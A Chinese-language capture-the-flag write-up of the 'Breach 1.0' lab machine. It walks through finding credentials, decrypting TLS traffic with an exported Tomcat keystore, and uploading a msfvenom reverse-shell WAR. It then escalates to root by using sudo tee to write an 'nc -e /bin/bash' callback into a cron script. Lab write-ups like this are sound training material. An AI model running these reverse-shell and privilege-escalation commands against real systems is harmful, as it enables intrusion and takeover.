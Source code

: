 # Breach_1.0

简单扫描发现所有端口都是开放的。所以反而没什么意义。

从web入手

![image-20200629204929675](assets/Breach_1.0.assets/image-20200629204929675.png)

先看主页

![image-20200629203933027](assets/Breach_1.0.assets/image-20200629203933027.png)

![image-20200629204107405](assets/Breach_1.0.assets/image-20200629204107405.png)

```bash
pgibbons:damnitfeel$goodtobeagang$ta
```

一套凭证

查看其他页面

一些图片

![image-20200630025327546](assets/Breach_1.0.assets/image-20200630025327546.png)

![image-20200630025544643](assets/Breach_1.0.assets/image-20200630025544643.png)

提示查看源码，主页的源码已经查看过了，继续

![image-20200629205041137](assets/Breach_1.0.assets/image-20200629205041137.png)

一个cms

![image-20200629205102914](assets/Breach_1.0.assets/image-20200629205102914.png)

尝试之前得到的凭证登录，成功，查看收件箱

![image-20200629205237014](assets/Breach_1.0.assets/image-20200629205237014.png)

![image-20200629205340815](assets/Breach_1.0.assets/image-20200629205340815.png)

重要文件会发布在admin portal中，并且admin的密码非常安全。admin叫bill

![image-20200629205500238](assets/Breach_1.0.assets/image-20200629205500238.png)

可能存在一套IDS/IPS系统，并且相关账户线索michael

![image-20200629205656560](assets/Breach_1.0.assets/image-20200629205656560.png)

哈～～ssl证书。并且得知了可能存在的两个域名`breach.local`以及`initech.com`

`192.168.110.140/.keystore`

![image-20200629205902888](assets/Breach_1.0.assets/image-20200629205902888.png)

查看一下

![image-20200629220020931](assets/Breach_1.0.assets/image-20200629220020931.png)

显然，并不能直接继续使用导出，，需要密钥。

继续在页面查看。发现了一些极难注意到的信息。

> 这个页面需要在确认了初次登录时的选项后才会出现，一般不会去瞎点的人基本不会去点这个提交的按钮，因为要留着抓包查看会发生什么。一开始很难注意到。这个真的。。。很可以。

![image-20200629214106578](assets/Breach_1.0.assets/image-20200629214106578.png)



![image-20200629214730367](assets/Breach_1.0.assets/image-20200629214730367.png)

别名，storepassword和key密钥都被设置为tomcat

那么我们需要ssl证书，才能读取ssl流量包中被加密的数据。

![image-20200629215608897](assets/Breach_1.0.assets/image-20200629215608897.png)

我们之前得到了ssl证书。

使用`tomcat`作为密钥将ssl证书导出为PKC12格式用来导入小鲨鱼wireshark解密被加密的通信数据

这里注意端口是8443,导入证书时要用到。

首先导出，依照之前的线索，导出所需的为tomcat，别名alias tomcat

```bash
keytool -v -importkeystore -srckeystore keystore -srcalias tomcat -destkeystore ssl_breach.p12 -deststoretype PKCS12
```

![image-20200629222302236](assets/Breach_1.0.assets/image-20200629222302236.png)

为了方便，我们为新文件使用的加密密码仍然设置为tomcat

现在将新生成的PKCS12文件导入wireshark

![image-20200629223317897](assets/Breach_1.0.assets/image-20200629223317897.png)

忽然心血来潮想画一下。嘎嘎

重新跟随tls流，

![image-20200629225342385](assets/Breach_1.0.assets/image-20200629225342385.png)

![image-20200629225733366](assets/Breach_1.0.assets/image-20200629225733366.png)

![image-20200629230401091](assets/Breach_1.0.assets/image-20200629230401091.png)

```bash
tomcat:Tt\5D8F(#!*u=G)4m7zB
```

![image-20200629230258624](assets/Breach_1.0.assets/image-20200629230258624.png)

```bash
https://192.168.110.140:8443/_M@nag3Me/html
```

![image-20200629234052076](assets/Breach_1.0.assets/image-20200629234052076.png)

无法正常加载页面，打开burpsuite通过bp进行代理。成功显示，使用之前的凭证登录

![image-20200629234313116](assets/Breach_1.0.assets/image-20200629234313116.png)

![image-20200630015804085](assets/Breach_1.0.assets/image-20200630015804085.png)

tomcat直接制作rshell上传

```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.110.131 LPORT=1337 -f war -o shell.war
```

![image-20200630015904048](assets/Breach_1.0.assets/image-20200630015904048.png)

![image-20200630020554409](assets/Breach_1.0.assets/image-20200630020554409.png)

注意在这里点击执行之前，需要关掉bp的监听，但是不要拿掉bp在firefox中的代理。

![image-20200630020740663](assets/Breach_1.0.assets/image-20200630020740663.png)

![image-20200630021126131](assets/Breach_1.0.assets/image-20200630021126131.png)

查看了一圈，没有发现什么有用的信息

上传脚本，检查更多设置

```bash
wget http://192.168.110.131:8080/lse.sh && chmod +x lse.sh && ./lse.sh -i -l 2
```

![image-20200630021819775](assets/Breach_1.0.assets/image-20200630021819775.png)

![image-20200630022001066](assets/Breach_1.0.assets/image-20200630022001066.png)

mysql是可以不用密码登录的

![image-20200630022702807](assets/Breach_1.0.assets/image-20200630022702807.png)

登录成功，查看了impresscms库，但是却没有预期的其他用户凭证。

最后还是在mysql库user表中找到了我们需要的凭证。再次强调任何时候能够查询数据库，一定要看mysql的user表

```bash
SELECT User, Host, Password FROM mysql.user;
```

![image-20200630022903171](assets/Breach_1.0.assets/image-20200630022903171.png)

```bash
milton:6450d89bd3aff1d893b85d3ad65d2ec2
```

![image-20200630023317120](assets/Breach_1.0.assets/image-20200630023317120.png)

```bash
milton:thelaststraw
```

![image-20200630023430874](assets/Breach_1.0.assets/image-20200630023430874.png)



![image-20200630024634470](assets/Breach_1.0.assets/image-20200630024634470.png)

传回kali分析，没什么线索

这里卡了很久。反复枚举之后终于注意到一个非常小的细节

![image-20200630030109030](assets/Breach_1.0.assets/image-20200630030109030.png)

blumbergh的名字是Bill，并且之前在CMS的massage中提到过，admin是bill，他的密码非常健壮。

而我们之前曾经在images中发现过一个图片bill.png

下载到本地

分析

![image-20200630030535761](assets/Breach_1.0.assets/image-20200630030535761.png)

之前到底是如何忽略掉这个关键线索的

![image-20200630030702214](assets/Breach_1.0.assets/image-20200630030702214.png)

原来这个提示不是说查看主页源码，而是图片的源码。一语双关

```bash
blumbergh：coffeestains
```

![image-20200630030822015](assets/Breach_1.0.assets/image-20200630030822015.png)

![image-20200630030844966](assets/Breach_1.0.assets/image-20200630030844966.png)

![image-20200630031315688](assets/Breach_1.0.assets/image-20200630031315688.png)

这个脚本每3分钟自动运行一次。

我们虽然没有权限写入，但是tee本身的功能将数据重定向到文件。而我们可以以root权限对脚本使用tee命令，而不需要密码

```bash
echo "nc -e /bin/bash 192.168.110.131 1338" | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

![image-20200630031810655](assets/Breach_1.0.assets/image-20200630031810655.png)

监听并等待脚本执行

![image-20200630032325712](assets/Breach_1.0.assets/image-20200630032325712.png)